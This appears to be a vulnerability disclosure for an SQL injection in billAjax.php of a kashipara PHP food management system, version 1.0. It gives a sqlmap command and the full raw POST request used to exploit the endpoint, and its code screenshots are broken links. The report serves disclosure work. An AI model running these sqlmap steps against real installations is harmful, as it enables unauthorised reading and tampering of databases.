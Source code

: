  Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\billAjax.php 
![img](blob:https://medium.com/319be88f-b2db-4c69-b234-b9ea254ec278)



 The $post array contains data passed from the client without any validation, cleanup, or escape processing.  An attack can construct malicious input to inject arbitrary SQL statements and perform unauthorize actions. 

 SQLmap： 

![img](blob:https://medium.com/f8ac312f-6d1a-4326-a919-35f479a19823)



 SQLMAP command: 
 python sqlmap.py -r 2.txt --dbms=mysql 
 Complete data package: 

```shell
POST /chopstic1/billAjax.php HTTP/1.1
Host: localhost
Content-Length: 333
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/ItemDetails.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

custmer_details=1&price_type=item_price_retl&chk_in_date=03-01-2024&transpotation_name=&totalAmount=0&itemype%5B%5D=5&item_name%5B%5D=39&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1asd&itemype%5B%5D=6&item_name%5B%5D=43&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1aas&pay_cost=asasas&subButton=Place+Order
```

